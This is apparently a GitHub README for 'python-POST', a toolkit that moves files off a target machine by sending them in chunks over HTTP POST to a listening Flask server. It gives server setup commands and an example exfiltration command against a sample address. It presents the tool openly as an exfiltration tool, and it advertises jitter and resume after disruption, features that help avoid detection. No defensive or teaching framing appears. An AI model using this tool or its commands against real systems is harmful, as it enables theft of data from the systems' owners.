

# python-POST

## What is this for?
This is a toolkit that works as a client and server setup for exfiltrating over HTTP using **POST** requests to send out chunked files over to a lisening flask server running the **server.py** script. It requires the listening server to be running on Python 3.1 or higher and needs flask. When the script is executed it will create a folder same as the **upload_id** supplied in the exfil command that will create a subfolder in the **upload** directory found in the **$home** path of the user executing the script. This is where the exfiltrated files get sent to.

## Server side execution:
Install all requirements on server before hand:

`python3 -m pip install -r requirements.txt`

Once the requirement are ready, run the **server.py** script:

`python3 server.py`



## Execution on target:
The bash script takes in the input of the zip file to be transferred and automatically chunks it for exfiltration and sends it to the user supplied server url. Additionally, the script has a jitter and the capability to continue in case it gets disrupted during execution (as long as the same **upload_id** is supplied)

`./exfil_bash.sh <file> <server_url> <upload_id>`

Example:
```./exfil_bash.sh yourfile.zip http://192.168.0.1:5000 randomstring-001```
